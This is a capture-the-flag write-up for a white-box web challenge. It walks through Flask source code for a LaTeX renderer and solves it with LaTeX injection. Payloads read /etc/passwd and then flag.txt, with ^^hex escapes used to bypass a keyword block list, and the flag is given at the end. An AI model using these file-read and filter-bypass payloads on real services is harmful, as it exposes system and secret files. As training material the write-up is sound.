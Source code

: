 # Kethal's Transmitter

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Sending signals over space can take a long time.  Kethal recently built a technology capable of transmitting messages to other galaxies using a specific signal.  If only I could figure out what techniques he uses.

#### Preview:

![image](https://github.com/user-attachments/assets/6c47c66e-d94e-4210-9181-d0e173553ad6)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:5000`

## Solution
<details>

The web challenge included Flask source code and a webpage with a text input. We may start by just testing it using the string "Hello World" to see how it responds. It appears that the result just displays whatever text we have entered, but this does not lead to anything. Therefore, we investigate the source code to determine what the website is doing.

![image](https://github.com/user-attachments/assets/c95bf775-d98c-40c8-8eb8-8329154a928e)

### Source Code (Python)
```python
from flask import Flask, render_template, request, jsonify
import subprocess
import os
import uuid
import base64
import time
import shutil

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret_key'
app.config['TEMP_FOLDER'] = 'temp'
app.config['FLAG'] = 'ICTF25{test_flag}'

os.makedirs(app.config['TEMP_FOLDER'], exist_ok=True)

LATEX_TEMPLATE = r"""
\documentclass{{article}}
\usepackage{{amsmath}}
\pagestyle{{empty}}

\begin{{document}}
{}
\end{{document}}
"""

blacklisted = ['flag', '.txt','newread','openin','read','file','line','closein','verbatim','usepackage','verbatiminput','lstinputlisting']

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/render', methods=['POST'])
def render_latex():
    cleanup_old_jobs(app.config['TEMP_FOLDER'])

    latex_code = request.form.get('latex', '')

    for word in blacklisted:
        if word in latex_code.lower():
            return jsonify({'error': 'Forbidden word detected'})

    job_id = str(uuid.uuid4())
    job_dir = os.path.join(app.config['TEMP_FOLDER'], job_id)
    os.makedirs(job_dir, exist_ok=True)

    try:
        flag_path = os.path.join(job_dir, 'flag.txt')
        with open(flag_path, 'w') as f:
            f.write(app.config['FLAG'])  

        full_latex = LATEX_TEMPLATE.format(latex_code)
        tex_file = os.path.join(job_dir, 'document.tex')
        with open(tex_file, 'w') as f:
            f.write(full_latex)

        result = subprocess.run(
            ['pdflatex', '-interaction=nonstopmode', '-output-directory', job_dir, tex_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if result.returncode != 0:
            return jsonify({
                'error': 'Invalid Function!'
            })

        pdf_file = os.path.join(job_dir, 'document.pdf')
        png_file = os.path.join(job_dir, 'output.png')
        convert_result = subprocess.run(
            ['convert', '-density', '150', pdf_file, '-quality', '90', png_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if convert_result.returncode != 0:
            return jsonify({'error': 'Image conversion failed'})

        with open(png_file, 'rb') as f:
            image_data = base64.b64encode(f.read()).decode('utf-8')

        response = {'image': image_data}
        return jsonify(response)

    except subprocess.TimeoutExpired:
        return jsonify({'error': 'Compilation Timed Out'})
    except Exception as e:
        return jsonify({'error': 'An error occurred'})
    finally:
        pass


def cleanup_old_jobs(temp_folder, max_age_seconds=60): 
    now = time.time()
    for job_name in os.listdir(temp_folder):
        job_path = os.path.join(temp_folder, job_name)
        if os.path.isdir(job_path):
            try:
                creation_time = os.path.getctime(job_path)
                if now - creation_time > max_age_seconds:
                    shutil.rmtree(job_path)
            except Exception as e:
                print(f"Cleanup error for {job_path}: {e}")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

According to the source code, the website will POST the LaTeX code to route `/render`, which will then be compiled into a PDF and converted to PNG format. The website additionally generates a `TEMP_FOLDER` with a unique ID for storing the rendered code. The `FLAG` is then stored in each job directory as `flag.txt`, with a blacklisting function to prohibit the user from sending certain LaTeX commands or directly accessing the content of the file `flag.txt`. Based on our observations, we can conclude that this website contains [Latex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) vulnerability.

We can start by using a simple Latex Injection payload to read a specific file. For this scenario, we are going to read the contents of `/etc/passwd` to test whether does this payload works.

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

It seems that the website detected some forbidden words and disallow us to print out the contents of the file that we specified. This is because the payload contains blacklisted strings such as `'newread', 'openin', 'read', 'file', 'line', 'closein', 'verbatim', 'usepackage', 'verbatiminput', 'lstinputlisting'`.

![image](https://github.com/user-attachments/assets/b1fa3b60-e075-4aca-8c5b-aa82e99c9af6)

Upon doing some research, there is a simple approach to bypass blacklisted strings by trying to replace one character with it's unicode hex value. Can refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md#:~:text=To%20bypass%20a,be%20lower%20case).

![image](https://github.com/user-attachments/assets/cd88bbcf-7b6f-4586-b7d9-b8bb96f9c018)

Encoding the characters to hex should allow us to bypass blacklisted strings. Therefore, we can try use the same payload again and encode some of the characters with its hex value.

![image](https://github.com/user-attachments/assets/1915bb24-8f06-49a1-83b3-e9c322fc7e95)

It seems like the payload works so we can encode the rest of the characters like `flag.txt` to read the content of the file since the filename was also blacklisted. The following payload should look like this:

```
\newr^^65ad\fil^^65
\open^^69n\fil^^65=fl^^61g.t^^78t
\re^^61d\fil^^65 to\lin^^65
\text{\lin^^65}
\close^^69n\fil^^65
```

Using the payload and submitting it into the text input will disclose the contents of the file `flag.txt`. Thus, the flag was successfully obtained.

![image](https://github.com/user-attachments/assets/82d48f15-4a35-4436-b332-82c7d361b9da)

### Flag
> ICTF25{dd265d58e3e1941a0cce646df439ea13c931d0159fe5c754cd39c8bad146fea7}

</details>

